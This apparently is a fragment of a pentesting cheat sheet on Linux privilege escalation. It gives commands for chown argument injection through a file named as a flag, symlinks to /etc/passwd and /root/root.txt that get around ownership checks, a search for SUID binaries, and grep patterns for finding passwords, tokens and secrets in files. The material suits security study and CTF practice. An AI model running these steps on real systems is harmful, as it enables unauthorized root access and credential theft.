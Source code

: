       Sets the owner of the specified `[FILE]` to match the owner of the `[REF FILE]`, `[USER]` is ignored.

    ```bash
    # Create a file reference owned by us
    touch reference
    # Create a file called as the flag of chown
    touch -- --reference=reference
    ```

    If you create a symlink to **/etc/passwd** in the same directory, then the owner of /etc/passwd will also be you.

  **Avoid checks:**

  - If there is a check to control if the link is linking to a priviledged folder, you can do a double link:

    ```bash
    ln -s /root/root.txt [FILE HOP]	# Creates a link to root.txt
    ln -s [FILE HOP] [FILE]			# Creates a link to FILE HOP
    ```

#### suid

- `find / -perm -u=s -type f 2>/dev/null`: checks for *SUID binaries* 

### Credential Hunting

- Some files worth checking:

  - `configuration` files
  - `log` files, 
  - `bash_history` 

- Search credentials in folder and subfolders:

  ```bash
  grep -rniH "[STRING]" [PATH] [-e REGEX]
  ```

  - `-r` recursive
  - `-n` output the line number
  - `-i` case insensitive
  - `-H`  output the content

  Credentials are variable assignments, which are made of:

  - name: password, credential, pass, psw, token, key, secret
  - separator: =, : (with or without space)
  - quotes

  Some examples:

  ```bash
  grep -rniH "password = '" .		# string assignment (try also with \")
  grep -rniH "password':" . 		# dictionary assignment
  grep -rniH "password'," .		# tuple assignment
  ```
